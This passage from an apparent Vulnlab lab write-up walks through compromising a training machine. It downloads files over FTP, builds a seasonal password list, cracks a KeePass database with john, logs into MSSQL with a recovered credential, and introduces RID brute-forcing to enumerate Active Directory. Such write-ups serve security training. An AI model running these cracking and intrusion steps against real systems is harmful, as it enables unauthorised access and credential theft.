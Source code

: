 ```
ftp> binary
200 Type set to I.
ftp> prompt off
Interactive mode off.
ftp> mget *
```

We successfully downloaded all files. Among them, the KeePass `Shared.kdbx` file and the `TrainingAgenda.txt` file are most relevant. The latter hints that employees are trained to avoid passwords like `SeasonYear!`, guiding us to create a simple word list:

```
Spring2024!
Summer2024!
Autumn2024!
Fall2024!
Winter2024!
```

## Initial Compromise

Without valid users yet, we proceed to test the word list against the KeePass `Shared.kdbx` file.

```
~/tools/john/run/keepass2john Shared.kdbx | tee shared.hash
Shared:$keepass$*2*600000*0*<redacted>

~/tools/john/run/john shared.hash --wordlist=$HOME/vulnlab/redelegate/passwords.txt
...
<redacted>        (Shared)
Session completed.
```

After cracking the password of the KeePass file, we access it with `keepassxc`. Inside, we find several passwords; one of them is for MSSQL, a service running on the machine. We use this to connect:

```
mssqlclient.py redelegate.vl/sqlguest:<redacted>@10.10.72.39
...
[!] Press help for extra shell commands
SQL (SQLGuest  guest@master)>
```

Although we are able to connect to the server, our options seem limited. Attempts to retrieve the hash of the service account using `xp_dirtree` fail, and the visible tables do not provide valuable information. Luckily, there is still something to try. By leveraging an older but effective technique, we enumerate users, groups, and machine names in an Active Directory environment via MSSQL using RID bruteforcing.

This method exploits MSSQL's ability to query SIDs (Security Identifiers) even with low privileges. By appending a range of Relative Identifiers (RIDs) to the domain's base SID, we can enumerate AD objects. This approach, as detailed in [Keramas' MSSQL AD Enumeration](https://keramas.github.io/2020/03/22/mssql-ad-enumeration.html), remains highly effective in environments where MSSQL is domain-joined.

